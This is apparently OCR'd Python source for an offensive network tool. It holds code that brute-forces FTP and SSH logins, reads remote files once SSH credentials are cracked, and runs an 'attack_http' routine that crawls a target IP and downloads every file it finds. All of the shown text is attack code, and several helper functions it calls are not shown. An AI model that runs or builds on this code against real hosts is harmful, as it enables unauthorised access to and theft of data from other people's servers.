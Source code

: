     def get_file(link_files: dict) -> None:
        """Function gets dict which consists of link and list of files and downloads them on local disc
        It writes them to 'ip_from_link' directory
        Args:
            link_files (dict): key: link, value: list of filenames with extension
        """
        if link_files['link']:
            link = link_files['link']
            files = link_files['files']
            dir_name = "-".join(link.split("/")[3:]) # directory name
            dir_main = link.split("/")[2] # ip address
            if not os.path.isdir(dir_main):
                os.mkdir(dir_main)
            os.chdir(dir_main)
            # print(dir_name)
            if dir_name != '':
                shutil.rmtree(dir_name, ignore_errors=True)
                os.mkdir(dir_name)
            else:
                shutil.rmtree("root", ignore_errors=True)
                os.mkdir("root")
            for file in files:
                response = requests.get(link + "/" + file)
                open(dir_name + "/" + file, "wb").write(response.content)
                print("[+] File:", file, "written in dir:", dir_name)
            os.chdir('..')
    
    def attack_http(targetIP:str) -> dict:
        """Collects other function to carry out an attack
        Args:
            targetIP (str): ip address
        Returns:
            file_list (dict): key: link, value: list of files on the page
        """
        print("Calling HTTP attack ...")
        links_to_check = make_links("http://" + targetIP)
        links_200_ok = update_links(links_to_check)
        for link in links_200_ok:
            file_list = get_page(link)
            get_file(file_list)
        return file_list
    
    def brute_force(hosts_ports_list: dict):
        for ip_addr, ports in hosts_ports_list.items():
            for port in ports:
                if port == 21:
                    print(brute_force_FTP(ip_addr))
                if port == 22:
                    SSH_cred = brute_force_SSH(ip_addr)
                    if SSH_cred:
                        read_remote_files(SSH_cred)
                if port == 80:
                    attack_http(ip_addr)
                    print("Success!")












